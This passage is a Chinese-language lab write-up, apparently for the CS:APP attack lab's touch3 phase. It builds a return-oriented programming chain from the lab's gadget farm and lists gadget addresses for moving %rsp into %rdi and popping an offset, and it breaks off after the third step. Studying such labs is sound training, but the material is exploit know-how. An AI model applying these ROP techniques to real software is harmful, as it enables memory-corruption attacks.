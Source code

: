 ```c
```

根据hexmatch函数可以知道，该函数将数字0x59b997fa转换成了一个字符串"59b997fa"。

```c
    char c[] = "59b997fa";
    for (int i = 0; i < 8; ++i) {
        printf("%.2x ",c[i]);
    }
//35 39 62 39 39 37 66 61
```

35  39  62  39  39  37  66  61，要想执行touch3我们必须要有一个字符串是上面的顺序，才能够满足字符串相等的情况执行后续的步骤

分析我们要做的事情，首先sval也就是rdi寄存器的值应该保存着35  39  62  39  39  37  66  61的地址值。

**根据gdb调试我们可以发现我们输入的字符串的起始位置是0x7ffffff7e3a0**

到目前为止发现我的分析是错误的,主要是因为:

因为每次栈的位置是随机的，所以无法直接用地址来索引字符串的起始地址，只能用栈顶地址 + 偏移量来索引字符串的起始地址。从`farm`中我们可以获取到这样一个`gadget`，`lea (%rdi,%rsi,1),%rax`，这样就可以把字符串的首地址传送到`%rax`。

在这一阶段中，我们需要做的就是把字符串的起始地址，传送到`%rdi`,然后调用`touch3`函数。

解题思路：

- 首先获取到`%rsp`的地址，并且传送到`%rdi`
-  其二获取到字符串的偏移量值，并且传送到`%rsi`
-  `lea (%rdi,%rsi,1),%rax`, 将字符串的首地址传送到`%rax`, 再传送到`%rdi`
- 调用`touch3`函数



(1) 第一步，获取到`%rsp`的地址

```xml
0000000000401a03 <addval_190>:
  401a03: 8d 87 41 48 89 e0     lea    -0x1f76b7bf(%rdi),%eax
  401a09: c3  
    
movq %rsp, %rax`的指令字节为：`48 89 e0`, 所以这一步的`gadget`地址为：`0x401a06
```

(2) 第二步，将`%rax`的内容传送到`%rdi`

```xml
00000000004019a0 <addval_273>:
  4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
  4019a6: c3
    
movq %rax, %rdi`的指令字节为：`48 89 c7`，所以这一步的`gadget`地址为：`0x4019a2
```

(3) 第三步，将偏移量的内容弹出到`%rax`

```bash
00000000004019ca <getval_280>:
  4019ca: b8 29 58 90 c3        mov    $0xc3905829,%eax
  4019cf: c3   
  
popq %rax`的指令字节为：`58`， 其中`90`为`nop`指令, 所以这一步的`gadget`地址为：`0x4019cc
```
